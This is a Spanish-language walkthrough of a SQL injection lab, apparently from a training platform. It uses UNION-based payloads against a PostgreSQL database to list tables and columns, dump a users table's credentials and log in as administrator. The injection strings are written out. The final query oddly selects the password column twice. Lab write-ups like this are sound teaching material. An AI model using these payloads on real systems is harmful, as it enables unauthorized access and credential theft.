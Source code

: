<img width="1858" height="754" alt="image" src="https://github.com/user-attachments/assets/a6679821-d605-4861-9158-a49fc7f9fa82" />

Por lo que sabemos que las columnas aceptan cadenas como tipo de dato.

- Averiguamos la versión (sabemos que no es `Oracle`):
Probamos si es `Mircrosoft`:

<img width="1881" height="789" alt="image" src="https://github.com/user-attachments/assets/abb0d3af-ffd3-4970-88eb-84a5db074712" />

Probamos si es `PostgreSQL`:
<img width="1870" height="793" alt="image" src="https://github.com/user-attachments/assets/7bb6def5-d3ab-4341-9f72-ed08a6f96319" />

El servidor nos devuelve un código de estado 200, por lo que lo confirmamos, filtramos por postgre para conocer al versión:
<img width="1875" height="822" alt="image" src="https://github.com/user-attachments/assets/acc02601-e720-4357-9238-d4be6d73c277" />

- Versión: `PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4)`

- Procedemos a listar las tablas, usamos el siguiente payload:
```sql
' union select table_name, 'a' from information_schema.tables--
```
Hacemos la consulta y filtramos por `users`
<img width="1882" height="835" alt="image" src="https://github.com/user-attachments/assets/7926eee4-3745-4627-8971-34247c0b908f" />


La tabla más interesante parece ser `users_vrjlxy`.

- Procedemos a listar las columnas dentro de la tabla `users_vrjlxy`, utilizamos el siguiente payload:
```
' union select column_name, 'a' from information_schema.columns where table_name= 'users_vrjlxy'--
```
Hacemos la consulta y filtramos por `username`:
<img width="1876" height="813" alt="image" src="https://github.com/user-attachments/assets/8417ef67-0191-4557-8f8b-8feffa753e9a" />

Obtenemos el el nombre de la columna vinculada a usernames: `username_zsnozl`.

Si filtramos por `password` obtenemos `password_pzwvoe`:
<img width="1514" height="825" alt="image" src="https://github.com/user-attachments/assets/9093bccf-29fd-4425-bb60-e7ccde699c7f" />

Ahora que tenemos el nombre de la tabla, y las columnas correspondientes a usuernames y passwords, procedemos a realizar la consulta final:
```
' UNION select password_pzwvoe, password_pzwvoe FROM users_vrjlxy--
```

Realizamos la consulta y obtenemos todas las credenciales de la tabla:
<img width="1868" height="826" alt="image" src="https://github.com/user-attachments/assets/f53a3d63-fca0-44c0-98e7-fd78c6a4c7d9" />

Para resolver el laboratorio nos logueamos como administrador con las siguientes credenciales:
- administrator
- x8owsse2xz05o62ehwzr


<img width="1679" height="771" alt="image" src="https://github.com/user-attachments/assets/0f39c971-2c40-438b-8970-8926f2d542c3" />



